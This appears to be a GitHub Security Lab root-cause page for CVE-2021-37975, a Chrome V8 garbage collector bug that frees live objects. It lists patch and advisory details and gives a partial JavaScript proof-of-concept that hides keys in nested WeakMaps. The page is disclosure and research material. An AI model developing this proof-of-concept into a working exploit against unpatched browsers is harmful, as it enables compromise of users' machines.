 # CVE-2021-37975: Chrome v8 garbage collector logic bug causing live objects to be collected
*Man Yue Mo, GitHub Security Lab*

## The Basics

**Disclosure or Patch Date:** 30 September 2021

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2021/09/stable-channel-update-for-desktop_30.html

**Affected Versions:** pre 94.0.4606.71

**First Patched Version:** 94.0.4606.71

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1252918

**Patch CL:** https://chromium.googlesource.com/v8/v8.git/+/1054ee7f349d6be22e9518cf9b794b206d0e5818

**Bug-Introducing CL:** N/A

**Reporter(s):** Anonymous

## The Code

**Proof-of-concept:** 
```js
var initKey = {init : 1};
var level = 4;
var map1 = new WeakMap();

function hideWeakMap(map, level, initKey) {
  let prevMap = map;
  let prevKey = initKey;
  for (let i = 0; i < level; i++) {
    let thisMap = new WeakMap();
    prevMap.set(prevKey, thisMap);
    let thisKey = {'h' : i};
    thisMap.set(prevKey, thisKey);
    prevMap = thisMap;
    prevKey = thisKey;
    if (i == level - 1) {
      let retMap = new WeakMap();
      map.set(thisKey, retMap);
      return thisKey;
    }
  }
}

function getHiddenKey(map, level, initKey) {
  let prevMap = map;
  let prevKey = initKey;
  for (let i = 0; i < level; i++) {
    let thisMap = prevMap.get(prevKey);
    let thisKey = thisMap.get(prevKey);
    prevMap = thisMap;
    prevKey = thisKey;
    if (i == level - 1) {
      return thisKey;
    }
  }
}
```
